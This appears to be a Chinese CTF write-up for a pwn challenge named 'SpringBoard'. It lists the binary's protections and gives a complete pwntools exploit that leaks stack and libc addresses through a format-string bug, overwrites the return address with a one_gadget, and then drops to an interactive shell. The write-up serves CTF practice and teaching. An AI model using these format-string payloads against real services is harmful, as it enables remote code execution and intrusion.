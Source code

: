 # SpringBoard 

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO|Partial|
|Canary|off   |
|NX    |on    |
|PIE   |off   |
|strip |no    |
|libc  |2.23-0ubuntu11.3|

## 解题思路

> 感谢 *N0wayBack* 的脚本用以复现

简单的格式化字符串，可以执行5次漏洞，直接把函数返回地址写成oneGadget就可以

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './SpringBoard'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('', 9999)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc.so.6')

    # payload 1, leak libc and stack
    sh.sendlineafter(b'keyword', b'FLAG%6$pFLAG%9$p')
    sh.recvuntil(b'FLAG')
    stack = int(sh.recv(14), 16) - 0xd8
    success(GOLD_TEXT(f'Leak retStackAddr: {stack:#x}'))
    sh.recvuntil(b'FLAG')
    libcBase = int(sh.recv(14), 16) - 240 - libc.symbols['__libc_start_main']
    success(GOLD_TEXT(f'Leak libcBase: {libcBase:#x}'))

    # payload 2-5, write one gadget on ret addr
    oneGadget = 0xf1247
    ogg = libcBase + oneGadget
    sh.sendlineafter(b'keyword', f'%{stack & 0xffff}c%11$hn'.encode())
    sh.sendlineafter(b'keyword', f'%{ogg & 0xffff}c%37$hn'.encode())
    sh.sendlineafter(b'keyword', f'%{(stack + 2) & 0xffff}c%11$hn'.encode())
    sh.sendlineafter(b'keyword', f'%{(ogg >> 16) & 0xff}c%37$hhn'.encode())

    sh.clean()
    sh.interactive()
```

> 非预期秒了
>
> <img src="assets/unexpected.png" width="50%" height="50%">

